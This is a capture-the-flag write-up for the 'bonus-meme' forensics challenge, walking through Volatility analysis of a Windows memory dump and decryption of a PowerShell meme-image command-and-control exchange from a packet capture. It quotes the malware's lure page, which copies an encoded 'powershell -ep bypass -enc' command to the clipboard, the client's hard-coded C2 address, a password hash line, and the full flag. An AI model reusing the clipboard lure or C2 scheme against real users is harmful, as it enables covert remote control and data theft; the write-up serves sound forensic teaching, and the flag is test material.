

# bonus-meme

[library.m0unt41n.ch/challenges/bonus-meme](https://library.m0unt41n.ch/challenges/bonus-meme)   

# TL;DR

> _What do you mean the AI watermark bots infected our systems with a meme that_
> _contains a watermark? You better find out what data got stolen... Maybe there_
> _ some cringe stuff has been stolen._ <br>
> ***You'll get the password for the ZIP file along the way. No need to bruteforce***
> ***it. Why? Because you guys always try to solve the unintended way. Now I force***
> ***you to solve the proper way ;)***<br>
> **Hint: This challenge contains 2 flag parts. Flag monster likes full attack chain.**

We get an encrypted `capture.zip` file (containing `capture.pcapng`) and
a 3.5G `dump.raw`.

# Volatility dump

To extract data from the image, I used the same combo that I developed for
[meme-review](https://library.m0unt41n.ch/challenges/meme-review).
All this produced **50GB** of data &#128512;

<details>
  <summary>[<b>click for details</b>]</summary>


*   Prepare environment and scratch directory (we need separate storage space,
    as some of the outputs will be quite big)

    ```bash
    IMAGE=dump.raw
    # Assumed from meme-review challenge, confirmed later
    PROFILE=Win10x86_19041
    STORE=/scratch/shc/bonus-meme
    mkdir -p $STORE
    mv $IMAGE $STORE/
    ln -s $STORE/$IMAGE $IMAGE
    ```

*   Install Volatility and create a wrapper script

    ```bash
    wget https://raw.githubusercontent.com/p0dalirius/volatility2docker/refs/heads/main/Dockerfile
    sed -i "s/install sudo/install python-pil yara python-yara sudo/" Dockerfile
    docker build -t volatility2docker:latest -f Dockerfile .
    cat >./vol <<EOF
    #!/bin/bash
    docker run -it -v "$STORE:/workspace:z" volatility2docker:latest /usr/bin/python2 /volatility/vol.py -f $IMAGE --profile=$PROFILE "\${@}" 2>&1
    EOF
    chmod a+x ./vol
    rm Dockerfile
    alias vol=$(pwd)/vol
    ```

*   Confirm image version

    ```bash
    $ ./vol imageinfo
    Suggested Profile(s) : Win10x86_18362, Win10x86_19041, Win10x86_17763 (Instantiated with Win10x86_19041)
    ```

*   Grab simple text ouptuts

    ```bash
    mkdir -p out
    for CMD in atoms atomscan cmdline deskscan filescan getsids hashdump \
               imageinfo malfind netscan privs pslist psscan pstree \
               psxview sessions timeliner userassist verinfo wndscan;
    do
      ./vol $CMD >out/$CMD.txt
    done
    ```

*   Grab larger dumps

    ```bash
    for CMD in "dumpfiles -n -S /workspace/dumpfiles/summary.txt" \
               dumpregistry procdump memdump mftparser;
    do
      mkdir -p $STORE/${CMD%% *}
      ln -sfn $STORE/${CMD%% *} out/${CMD%% *}
      ./vol $CMD -D /workspace/${CMD%% *} >out/${CMD%% *}.txt
    done
    ```

*   Process the `evtx` files using
    [python-evtx](https://github.com/williballenthin/python-evtx)

    ```bash
    pip3 install python-evtx
    mkdir -p $STORE/evtx
    ln -sfn $STORE/evtx out/evtx
    for F in $STORE/dumpfiles/*.evtx*;
    do
      evtx_dump.py "$F" >"$STORE/evtx/${F##*/}" 2>&1
    done
    ```

*   Move some bigger test files to store

    ```bash
    mv memmap.txt $STORE/ ; ln -sfn $STORE/memmap.txt
    mv mftparser.txt $STORE/ ; ln -sfn $STORE/mftparser.txt
    ```

*   Chown some of the output files, as Docker might have written
    them as `root:root`
    
    ```bash
    sudo chown -R $USER:$USER $STORE
    ```

</details>


# Analysis

In `hashdump` output there is a `norelect_man` user:

```
norelect_man:1000:19890066567f4ee853369f3079f3d2d2:e834e3dfd4f8fb040b1923ba57869013:::
```

Grepping for `meme`, there are:

```
evtx/file.1156.0xbde2af38.Microsoft-Windows-PowerShell%4Operational.evtx.dat:<Data Name="ScriptBlockText"># Credit to https://github.com/CeilingGang/MemeC2
evtx/file.1156.0x93605538.Microsoft-Windows-PowerShell%4Operational.evtx.vacb:<Data Name="ScriptBlockText"># Credit to https://github.com/CeilingGang/MemeC2
```

These files are identical and... suspicious! They contain a Powershell script -
three times as `-enc`, Base64-encoded version and once as clear text, but all
of these with the same contents. The top of the script is:

```powershell
# Credit to https://github.com/CeilingGang/MemeC2
# Ceiling Gang AUUH!

Add-Type -Assembly System.Drawing
$ServerIP = "192.46.234.8"
$Port = "5000"
$Endpoint = "http://$ServerIP`:$Port"
(...)
```

And, more interestingly,
[github.com/CeilingGang/MemeC2](https://github.com/CeilingGang/MemeC2)
has a _fully annotated_ version
([client.ps1](https://github.com/CeilingGang/MemeC2/blob/main/client.ps1)),
missing just the definitions above, but otherwise, functionally identical.

The same GitGhub repository also contains:

*   Password to the ZIP file: **potatossium!**
*   [server.py](https://github.com/CeilingGang/MemeC2/blob/main/server.py)
    which looks like the endpoint that PowerShell script talks to
*   [commander.py](https://github.com/CeilingGang/MemeC2/blob/main/commander.py)
    which looks like some sort of text control panel, managing files received
    by the endpoint.
*   [image.png](https://raw.githubusercontent.com/CeilingGang/MemeC2/refs/heads/main/image.png):

    

`192.46.234.8:5000` is not responding (no wonder, I was solving this a year after
the event &#128578;) so, it's safe to assume this is a fully offline challenge.

## The client script

[client.ps1](https://github.com/CeilingGang/MemeC2/blob/main/client.ps1) looks
like a client-side bot, controlled by inputs retrieved from C&amp;C server:
After getting a 16-byte, hex-encoded `PSK` with `GET /hej_monika`, there is a loop:

*   `GET /ceiling_gang` as `./command_image.png`
*   Extract `ImageDescription` exif field and decode Base64-decode it
*   First 16 bytes contain `IV` for AES decryption, the rest is the ciphertext.
*   Decrypt the command using `PSK` and `IV`
*   If the command is different than the last one:
    *   Execute it
    *   Generate a new, random `IV` for AES encyption
    *   Encrypt the command result
    *   Prefix it with `IV` (binary), Base64-encode it
    *   Send it back to the server as `POST /floor_gang`, with JSON payload:
        `{"content": "encrypted_result"}`

## The packet dump

After extracting the packet dump (needed to use [7zip](https://7-zip.org/),
my default `unzip` command did not like the format) and setting Wireshark filter to
`_ws.col.protocol == "HTTP/JSON" || _ws.col.protocol == "HTTP"`, we see:

### 1. Dummy search

First request in the dump is a Google search for `memes to watch before blindly pasting a command into a prod server terminal` &#128512;

### 2. Client loading malware (and flag part #1)

Second request is `GET /index.html`, which is malware's startup page and can
be summarized as:

```html
<html>
  <body>
    ">
    <button id="copyButton">I like this meme</button>
    <script>
      var data = 'powershell -ep bypass -enc <THE SAME BASE64 AS IN THE LOGS>'
      document.getElementById('copyButton').addEventListener('click', function () {
        navigator.clipboard.writeText(data).then(function () {
          console.log('Payload copied to clipboard');
          console.log('Initializing flag: cyberskills23{m3m3_and_c0ntr0l_ch4nn3ls')
        }).catch(function (error) {
          console.error('Could not copy text: ', error);
        });
      });
    </script>
  </body>
</html>
```

Note the: **`Initializing flag: cyberskills23{m3m3_and_c0ntr0l_ch4nn3ls}`** part &#128578;
But, as mentioned in the challenge description, this is not the flag - we need a
second part.

### 3. C&amp;C exchange (and flag part #2)

What follows, matches the protocol described for `client.ps1` very closely.
While Wireshark makes the conversation rather easy to follow, as it understands both
JSON and EXIF (!), that is still a bit too much of cut & paste. I adapted my existing script
for parsing Wireshark JSON outputs:

```python
import subprocess
import json
import exifread

from io import BytesIO
from base64 import b64decode
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

last_command = None
tshark = subprocess.run(['tshark', '-r', 'capture.pcapng', '-T', 'json'],
                        capture_output=True, text=True, check=True)
for pkt in json.loads(tshark.stdout):
  if 'http' in pkt['_source']['layers']:
    http = pkt['_source']['layers']['http']
    if 'http.file_data' in http:
      file_data = http['http.file_data'].replace(':', '')
    for req in http.keys():
      if req.startswith('POST /floor_gang'):
        result = b64decode(json.loads(bytes.fromhex(file_data).decode('ascii'))["content"])
        cipher_dec = AES.new(key, AES.MODE_CBC, result[:16])
        print(unpad(cipher_dec.decrypt(result[16:]), AES.block_size).decode())
      elif req.startswith("HTTP/1.1 200 OK"):
        if http['http.request.uri'] == "/hej_monika":
          key = bytes.fromhex(bytes.fromhex(file_data).decode('ascii'))
        elif http['http.request.uri'] == "/ceiling_gang":
          jpg = BytesIO(bytes.fromhex(file_data))
          cmd = b64decode(str(exifread.process_file(jpg)['Image ImageDescription']))
          cipher_dec = AES.new(key, AES.MODE_CBC, cmd[:16])
          cmd = unpad(cipher_dec.decrypt(cmd[16:]), AES.block_size).decode()
          if cmd != last_command:
            last_command = cmd
            print("\033[1;36mPS> \033[1;33m"+last_command+"\033[0m")
```

The complete exchange:



And, unsurprisingly `XzRyM19kNG5nM3IwdXN9Cg==`
[decodes to](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=WHpSeU0xOWtORzVuTTNJd2RYTjlDZz09)
**`_4r3_d4ng3r0us}`**, which completes the flag.

It wasn't that hard. After going through the Volatility pains, the rest is mostly a
logical sequence of steps.

---

## `cyberskills23{m3m3_and_c0ntr0l_ch4nn3ls_4r3_d4ng3r0us}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
